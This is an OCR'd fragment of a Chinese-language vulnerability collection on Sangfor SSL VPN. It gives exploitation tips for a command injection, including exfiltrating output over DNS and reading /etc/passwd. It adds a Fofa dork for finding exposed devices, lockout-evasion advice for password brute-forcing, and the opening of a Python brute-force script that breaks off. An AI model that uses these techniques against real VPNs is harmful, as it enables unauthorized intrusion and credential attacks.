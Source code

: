 `wget -t %d -T %d --spider %s`

**7.** **利用技巧**

1.该版本深信服VPN属于相对早期的版本, 大概2008年左右, 但目前还有761个ip开放在公网

2.该版本较低, `whomai`不存在, 可以使用 `uname`, 这里没有空格可dns传出来

3.去除空格也简单 `cat /etc/passwd | tr " \n" "+|"`

**8.** **防护方法**

1.及时更新补丁

2.升级到最新版  

  

4  

  

深信服 VPN 口令爆破
------------

  

**1.** **漏洞简介**

深信服 VPN 针对口令爆破是5次错误锁定IP五分钟, 所以这里爆破也不是不行, 主要是测试常见弱口令以及分布式爆破也不是不行

**2.** **影响组件**深信服 VPN

**3.** **漏洞指纹**

`/por/login_auth.csp?apiversion=1sangfor/cgi-bin/login.cgi?rnd=`

**4. Fofa Dork**

`app="``深信服-SSL-VPN"`

**5.** **漏洞分析**

关于SSL VPN认证时的验证码绕过 – SSL VPN/EMM – 深信服社区  
https://bbs.sangfor.com.cn/forum.php?mod=viewthread&tid=20633

此处存疑, 时间问题没有测试

**6.** **漏洞利用**

1.深信服VPN 口令爆破 demo (这里仅测试了M6,其他的应该差不多)

`#encoding=utf8`

`import requests`

`import hashlib`

`import urllib3`

`urllib3.disable_warnings()`

`import re`

`session = requests.session()`

`def SanForLogin(target, password, user):`
